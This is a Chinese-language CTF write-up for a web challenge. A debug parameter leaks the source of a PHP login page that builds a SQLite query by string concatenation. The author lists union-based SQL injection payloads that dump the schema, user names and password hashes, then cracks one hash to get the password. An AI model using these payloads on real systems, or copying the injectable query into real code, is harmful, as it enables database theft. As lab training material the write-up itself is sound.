 好难的题目（:sob:）

怎么现在题目都这么难了

先用dirsearch扫目录

获取到有用信息，有一个/admin.php和/login.php这里的admin.php是用来管理员登录的

/login.php下有一个提示

|                                         |
| --------------------------------------- |
| <!-- TODO: Remove ?debug-Parameter! --> |
|                                         |

根据常规经验，这样的URL结构中的“debug”参数通常用于开发和调试目的。它可能用于在网站或应用程序的代码中启用调试模式，以便开发人员可以查看更详细的错误信息、调试输出或其他相关信息，以帮助识别和解决问题。

然后后面加入?debug可以获取源码

```php
<?php
if(isset($_POST['usr']) && isset($_POST['pw'])){
        $user = $_POST['usr'];
        $pass = $_POST['pw'];

        $db = new SQLite3('../fancy.db');
        
        $res = $db->query("SELECT id,name from Users where name='".$user."' and password='".sha1($pass."Salz!")."'");
    if($res){
        $row = $res->fetchArray();
    }
    else{
        echo "<br>Some Error occourred!";
    }

    if(isset($row['id'])){
            setcookie('name',' '.$row['name'], time() + 60, '/');
            header("Location: /");
            die();
    }

}

if(isset($_GET['debug']))
highlight_file('login.php');
?>
```

可以看出这里的数据库为SQLite3，user里面可以注入（这里的输出是用cookie的形式输出的）所以建议用bp抓包查看输出

抄的注入语句

```php
1' union select name,sql from sqlite_master --+
1' union select id,group_concat(id) from users--+得到1，2，3

1' union select id,group_concat(name) from users--+得到admin,fritze,hansi

1' union select id,group_concat(password) from users--+得到3fab54a50e770d830c0416df817567662a9dc85c、54eae8935c90f467427f05e4ece82cf569f89507、34b0bb7c304949f9ff2fc101eef0f048be10d3bd

```



获得表如下

![在这里插入图片描述](./assets/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2h4aHhoeGh4eA==,size_16,color_FFFFFF,t_70.png)

这里的意思是找到最喜欢的word然后+Salz!后的sha1编码跟 3fab54a50e770d830c0416df817567662a9dc85c 相等

发现直接md5解密就得到密码（感觉是非预期解了）

ThinJerboaSalz!

正确的解法应该是从pdf文件中找对应的值然后求
